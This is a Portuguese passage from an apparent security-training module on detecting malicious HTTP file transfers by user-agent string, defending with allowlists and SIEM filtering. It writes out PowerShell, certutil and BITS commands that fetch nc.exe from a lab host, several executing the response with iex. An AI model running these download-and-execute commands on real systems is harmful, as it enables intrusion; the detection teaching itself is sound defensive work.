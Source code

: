 A detecção de linha de comando com base na lista negra é direta para ignorar, mesmo usando ofuscação simples. No entanto, embora o processo de lista de permissões em todas as linhas de comando em um ambiente específico seja inicialmente demorado, ele é muito robusto e permite detecção e alerta rápidos em qualquer linha de comando incomum.

A maioria dos protocolos cliente-servidor exige que o cliente e o servidor negociem como o conteúdo será entregue antes de trocar informações. Isso é comum com o `HTTP` protocolo. É necessário interoperabilidade entre diferentes servidores da Web e tipos de navegadores da web para garantir que os usuários tenham a mesma experiência, independentemente do navegador. Os clientes HTTP são mais facilmente reconhecidos por sua sequência de agentes do usuário, que o servidor usa para identificar qual `HTTP` o cliente está se conectando a ele, por exemplo, Firefox, Chrome etc.

Os agentes do usuário não são usados apenas para identificar navegadores da web, mas qualquer coisa que atue como um `HTTP` cliente e conectando-se a um servidor web via `HTTP` pode ter uma sequência de agente do usuário ( ou seja., `cURL`, um costume `Python` script ou ferramentas comuns, como `sqlmap`, ou `Nmap`).

As organizações podem tomar algumas medidas para identificar possíveis cadeias de agentes do usuário, primeiro criando uma lista de cadeias de agentes legítimos conhecidos, agentes de usuários usados pelos processos padrão do sistema operacional, agentes de usuário comuns usados por serviços de atualização, como Windows Update, atualizações de antivírus, etc. Eles podem ser alimentados em uma ferramenta SIEM usada para a caça de ameaças para filtrar o tráfego legítimo e focar em anomalias que podem indicar comportamento suspeito. Quaisquer cadeias de agentes de usuários com aparência suspeita podem ser investigadas para determinar se foram usadas para executar ações maliciosas. Este [site](http://useragentstring.com/index.php) é útil para identificar cadeias comuns de agentes de usuários. Uma lista de cadeias de agentes do usuário está disponível [aqui](http://useragentstring.com/pages/useragentstring.php).

Transferências maliciosas de arquivos também podem ser detectadas por seus agentes de usuário. Os seguintes agentes / cabeçalhos de usuário foram observados em comum `HTTP` técnicas de transferência ( testadas no Windows 10, versão 10.0.14393, com PowerShell 5 ).

#### Invoke-WebRequest - Cliente

```powershell-session
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe" 
PS C:\htb> Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
```

#### Invoke-WebRequest - Server

```shell-session
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0
```

#### WinHttpRequest - Cliente

```powershell-session
PS C:\htb> $h=new-object -com WinHttp.WinHttpRequest.5.1;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.ResponseText
```

#### WinHttpRequest - Server

```shell-session
GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
```

#### Msxml2 - Cliente

```powershell-session
PS C:\htb> $h=New-Object -ComObject Msxml2.XMLHTTP;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.responseText
```

#### Msxml2 - Servidor

```shell-session
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
```

#### Certutil - Cliente

```powershell-session
PS C:\htb> certutil -urlcache -split -f http://10.10.10.32/nc.exe 
PS C:\htb> certutil -verifyctl -split -f http://10.10.10.32/nc.exe
```

#### Certutil - Server

```shell-session
GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
```

#### BITS - Cliente

```powershell-session
PS C:\htb> Import-Module bitstransfer;
PS C:\htb> Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;
PS C:\htb> $r=gc $env:temp\t;
PS C:\htb> rm $env:temp\t; 
PS C:\htb> iex $r
```

#### BITS - Servidor

```shell-session
HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8
```

Esta seção apenas arranha a superfície ao detectar transferências maliciosas de arquivos. Seria um excelente começo para qualquer organização criar uma lista branca de binários permitidos ou uma lista negra de binários conhecidos por serem usados para fins maliciosos. Além disso, procurar por cadeias anômalas de agentes de usuários pode ser uma excelente maneira de capturar um ataque em andamento. Abordaremos as técnicas de caça e detecção de ameaças em profundidade nos módulos posteriores.
